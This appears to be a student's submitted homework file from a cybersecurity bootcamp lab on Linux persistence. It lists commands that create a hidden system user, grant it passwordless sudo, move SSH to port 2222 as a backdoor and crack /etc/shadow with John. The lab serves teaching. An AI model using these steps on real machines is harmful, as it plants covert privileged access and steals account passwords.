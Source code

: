 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`

    <img src="C:\Users\Rob\Desktop\University-of-Minnesota-\week6\IMAGE/sysdID.png"> 
       
     ![picture](IMAGE\sysdID.png)
                              
                
                        
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`

       <img src="\Rob\Desktop\University-of-Minnesota-\week6\IMAGE\sysdID.png"> 
       
       ![picture](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

      <img src="IMAGE/su_acc_nopass.png"> 
      
      ![description](IMAGE/su_acc_nopass.png)

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

